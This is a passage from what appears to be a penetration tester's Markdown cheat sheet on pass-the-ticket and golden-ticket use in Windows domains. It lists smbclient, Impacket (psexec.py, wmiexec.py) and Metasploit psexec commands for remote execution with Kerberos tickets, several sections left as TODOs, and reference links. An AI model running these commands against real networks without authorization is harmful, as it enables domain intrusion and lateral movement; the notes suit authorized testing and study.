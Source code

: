 ### 2.2 - Sliver

TODO: Fill this info

### 2.3 - Covenant

TODO: Fill this info

## 03 - Samba Suite

### 3.1 - SMBClient

TODO: refer to the links using `ktutil`

`$ smbclient -U "<username>" -N --use-krb5-ccachce=/path/to/ticket.ccache -L //<IP>`

## 04 - Impacket

- Specify the pass of the golden ticket.

`$ export KRB5CCNAME=/path/to/file.ccache`

### 4.1 - SMBClient

`$ smbclient.py -k -no-pass <domain>/<username>@<IP>`

### 4.2 - PsExec

`$ psexec.py -k -no-pass <domain_name>/<username>@<IP>`

### 4.3 - WMIExec

`$ wmiexec.py -k -no-pass <domain_name>/<username>@<IP>`

TODO: Create another section of pass the ticket

```
msf exploit(windows/smb/psexec) > set smb::auth [ntlm]
```

---
## References

- [Malicious.link: Pass The Hash with Kerberos](https://room362.com/posts/2018/pass-the-hash-with-kerberos/)

- [Hackndo: Kerberos Sliver Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)

- [Pentestlab Blog: Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

- [Hacking Articles: Metasploit For Pentester Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
